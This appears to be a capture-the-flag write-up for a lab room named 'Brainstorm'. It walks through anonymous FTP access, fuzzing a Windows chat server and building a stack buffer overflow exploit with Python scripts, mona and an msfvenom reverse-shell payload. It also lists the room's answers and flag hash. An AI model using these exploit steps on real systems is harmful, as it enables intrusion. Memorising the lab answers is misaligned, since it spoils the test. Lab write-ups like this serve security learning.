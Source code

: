 # Brainstrom

- MachinIP: `10.10.54.177`
- OS      : `Windows`
- Exploit : `Buffer Overflow, Ret2Reg`

---

- Nmap result, ports 21`(ftp)`
- Anonymous access allowed on FTP service
- Download the available files

> make sure to enable the binary format while getting files from ftp

```bash
# anonymous login to ftp
ftp 10.10.54.177
# username: anonymous
# password: anonymous

# navigating through the available folder
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-29-19  08:36PM       <DIR>          chatserver
226 Transfer complete.
ftp> cd chatserver/
250 CWD command successful.
# disabling the promt function
ftp> prompt off
Interactive mode off.
# setting the file download type to binary
ftp> binary
200 Type set to I.
# downloading recursively
ftp> mget *
[..snip..]
```

- Chatserver.exe and essfunc.dll is obtained from the ftp
- On connecting to the ftp, it asks for a username and message

```bash
┌──(kali㉿kali)-[~/writeups/thm/brainstrom]
└─$ nc 10.10.54.177 9999
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): vuln
Write a message: i am a message


Sat May 08 00:41:52 2021
vuln said: i am a message

```

- So we could pass bunch of charcters in both username and password field, but the username field is terminated after 20 characters (no use on trying to exploit it, btw which I did)
- So on to the message field, first we want to know at which characters size, the application crashes
- We can script a python script for this

```python
#!/usr/bin/env python3

import sys, time, socket

host = "10.10.54.177"
port = 9999
payload = "a"*100
timeout = 2

while True:
	try:
		with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
			s.settimeout(timeout)
			s.connect((host, port))
			s.recv(1024) 	# welcome banner
			s.recv(1024)	# username prompt
			s.send(bytes("vuln", 'latin-1'))
			print(f"Fuzzing with {len(payload)} bytes ...")
			s.recv(1024)	# message prompt
			s.send(bytes(payload, 'latin-1'))
			s.recv(1024)
	except:
		print(f"Application crashed at {len(payload)} bytes...")
		sys.exit(0)

	payload += "a"*100
```

- We get to know that the application crashes somewhere around `2100-2500` bytes
- Lets generate cyclic pattern with either `msf` or `pwntools` to identify its offset
- I will be using pwntools for this, 

```bash
┌──(kali㉿kali)-[~/writeups/thm/brainstrom]
└─$ pwn cyclic 2500
```

- Now add the generated cyclic pattern to the script and send it to the appliction which will crash the appication once again

```python
#!/usr/bin/env python3

import sys,socket

host = "127.0.0.1"
port = 9999

offset = 0
overflow = "a"*offset
retn = ""
padding = ""

payload = ("{pwn cyclic output}")

s_buffer = overflow + retn + padding + payload

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.recv(1024) # welcome
s.recv(1024) # username prompt
s.send(bytes("vuln", 'latin-1'))
s.recv(1024) # message prompt
s.send(bytes(s_buffer, 'latin-1'))
print("Application crashed :)")
```

- Now run the script and take a look at the EIP's value
- Find the offset with the EIP value

```bash
┌──(kali㉿kali)-[~/writeups/thm/brainstrom]
└─$ ./xploit.py 
Application crashed :)
┌──(kali㉿kali)-[~/writeups/thm/brainstrom]
└─$ pwn cyclic -l 0x75616164
2012
```

- Now upadate the offset value from 0 to 2012
- Now fill the retn address with bbbb, now restart the application in Immunity debugger and run the script again
- Now the EIP should be overwritten with 62626262
- Now its time to find bad characters in the application
- Generate hexadecimal values from 01-256 with the python script

```python
for i in range(1, 256):
	print("\\x"+"{:02x}".format(i), end='')

```

- Update the generated hexadecimal characters in the payloads section and send it to the application
- Now the application crashes and its time to identify the bad chars

```bash
# generate bytearray with mona
!mona bytearray -b "\x00"

# after crashing compate stack memory with the bytearray.bin
!mona compare -f bytearray.bin -a {address held by ESP}
```

- This application has no bad characters other than `\x00`
- Now lets generate shell code with `msf`

```bash
┌──(kali㉿kali)-[~/writeups/thm/brainstrom]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -f py -v payload -b "\x00"

```

- Update the generated payload in the script
- Now find an address which contains `JMP ESP` instruction

```bash
# with mona
!mona jmp -r esp -cbp '\x00'
```

- After obtaining the address, update it in the reverse order, since its little endian format
- Address found, `625014DF` --> `62 50 14 DF` --> `DF 14 50 62`
- Address will take the hexadecimal form of, `"\xdf\x14\x50\x62"`
- Now set the ret value with the calculated memory address and add some paddings `\x90` to your liking and run the script
- Listen on a netcat session to obtain reverse shell

## Answers

### Deploy Machine and scan network

- How many ports are open?
`6`

### Accessing Files

- What is the name of the exe file you found?
`chatserver.exe`

### Access

- After gaining access, what is the content of the root.txt file?
`5b1001de5a44eca47eee71e7942a8f8a`
